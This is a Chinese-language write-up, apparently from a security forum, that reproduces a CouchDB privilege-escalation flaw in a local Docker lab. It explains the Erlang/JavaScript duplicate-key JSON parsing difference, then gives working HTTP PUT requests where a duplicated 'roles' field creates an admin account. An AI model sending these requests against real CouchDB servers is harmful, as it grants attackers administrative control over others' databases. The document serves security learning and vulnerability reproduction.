 p.s:运行命令`docker-compose up -d`这里出现了一个报错。百度搜了一波，发现这是由于当前用户未加入docker组。解决方案是运行命令

```php
sudo gpasswd -a ${USER} docker
```

然后退出当前用户比如切换为root，再次切换回原用户。然后执行docker-compose up -d就ok了。

![image-20220223205256657](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-c3caeed3b3d2dccdd903055648b575dae867ad83.png)

**漏洞原理分析**

由于Erlang和JavaScript对JSON解析方式的不同，导致语句执行产生差异性（对于给定的键，Eralang解析器将存储两个值，但是JavaScript只存储第二个值）

如：  
Erlang:

> jiffy:decode(“{“a”:”1″, “a”:”2″}”).

{\[{&lt;&lt;“a”&gt;&gt;,&lt;&lt;“1”&gt;&gt;},{&lt;&lt;“a”&gt;&gt;,&lt;&lt;“2”&gt;&gt;}\]}

JavaScript：

> JSON.parse(“{“a”:”1″, “a”: “2”}”)

{a: “2”}

可以被利用于，非管理员用户赋予自身管理员身份权限。

参考文章：<https://cloud.tencent.com/developer/article/1144778>

**漏洞复现**

访问`服务器ip:5984`并抓包  
将抓到的包发送给重发器（Repeater）并将发送数据改为如下（服务器IP地址为自己搭建的IP）：

```php
PUT /_users/org.couchdb.user:qaq HTTP/1.1Accept: /Host: 192.168.160.141:5984/Accept-Language: enUser-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0Content-Type: application/jsonConnection: closeContent-Length: 101{"type": "user","name": "qaq","roles": ["_admin"],"password": "666666"}
```

返回403错误：{“error”:”forbidden”,”reason”:”Only \_admin may set roles”}报错原因是只有管理员才能设置Role角色。通过增加一个roles字段数据包的方式绕过限制

```php
PUT /_users/org.couchdb.user:qaq HTTP/1.1Accept: /Host: 192.168.160.141:5984/Accept-Language: enUser-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0Content-Type: application/jsonConnection: closeContent-Length: 101{"type": "user","name": "qaq","roles": ["_admin"],"roles":[],"password": "666666"}
```

![image-20220224143820339](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-8965f3670959aa695d269423c8123f84a7da797a.png)

通过新创建的用户qaq/666666成功登录

![image-20220224143911158](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-0a188b67019aed546b7f161eb95d3f3bdf2eeed6.png)

复现完记得销毁环境哦~目录中执行命令

